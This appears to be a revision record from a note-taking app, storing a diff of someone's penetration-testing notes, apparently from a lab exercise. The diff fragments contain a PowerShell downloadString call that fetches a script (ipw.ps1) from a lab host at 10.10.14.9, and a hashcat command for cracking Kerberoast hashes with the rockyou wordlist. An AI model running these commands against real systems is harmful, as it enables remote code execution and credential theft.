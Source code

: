 id: 4791eed9d39e4f3ca697a69097f0840d
parent_id: cb7a713bf7c341b9b1e99995c3cd4574
item_type: 1
item_id: 47d7422e06d948c0ba7ec81fc6caab6d
item_updated_time: 1650607598538
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"downloadString('\"],[-1,\"[\"],[0,\"http://10.10.14.\"]],\"start1\":73,\"start2\":73,\"length1\":33,\"length2\":32},{\"diffs\":[[0,\".ps1\"],[-1,\"](http://10.10.14.9:8000/ipw.ps1)\"],[0,\"')\\\"\\\n\"]],\"start1\":127,\"start2\":127,\"length1\":41,\"length2\":8},{\"diffs\":[[0,\"ashcat\\\n\\\n\"],[1,\"hashcat -m 13100 --force -a 0 -o Kerb-Cracked.txt kerb-Hash0.txt /usr/share/wordlists/rockyou.txt\\\n\\\n\"],[0,\"## Using\"]],\"start1\":697,\"start2\":697,\"length1\":16,\"length2\":115}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T06:06:57.702Z
created_time: 2022-04-22T06:06:57.702Z
type_: 13